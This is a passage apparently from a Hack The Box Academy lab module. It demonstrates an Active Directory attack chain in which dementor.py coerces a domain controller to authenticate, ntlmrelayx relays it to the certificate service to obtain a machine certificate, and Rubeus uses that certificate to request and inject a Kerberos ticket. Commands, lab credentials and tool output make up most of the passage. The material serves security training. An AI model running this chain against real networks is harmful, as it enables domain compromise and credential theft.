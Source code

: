  Attack

```shell-session
LeDaav@htb[/htb]$ python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.4
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

![Printer Bug](https://academy.hackthebox.com/storage/modules/176/A14/dementor.png)

If we switch back to terminal of `NTLMRelayx`, we will see that an incoming request from `DC2$` was relayed and a certificate was successfully obtained:

  Attack

```shell-session
[*] SMBD-Thread-5 (process_request_thread): Received connection from 172.16.18.4, attacking target http://172.16.18.15
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://172.16.18.15 as EAGLE/DC2$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 48
[*] Base64 certificate of user DC2$: 
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqGSIb3DQEHBqCCBzgwggc0AgEAMIIHLQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQIKetNs6FxjOQCAggAgIIHANV1B7
...
...
...
awlkK4goAPpDmzA9MDEwDQYJYIZIAWUDBAIBBQAEIFRQPz8lJcfLnaSLiZE6XHwdBfhN0CvXA6VfHQyHXUjRBAjoidjhENa0Kg==

```

![NTLMRelay certificate obtained](https://academy.hackthebox.com/storage/modules/176/A14/DC2Cert.png)

We will copy the obtained base64-encoded certificate, switch to the Windows machine, and use `Rubeus` to the certificate to authenticate with (this time, the certificate is in the proper format) and obtain a TGT:

  Attack

```powershell-session
.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:MIIRbQIBAzCCEScGCSqGSI<SNIP>

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

```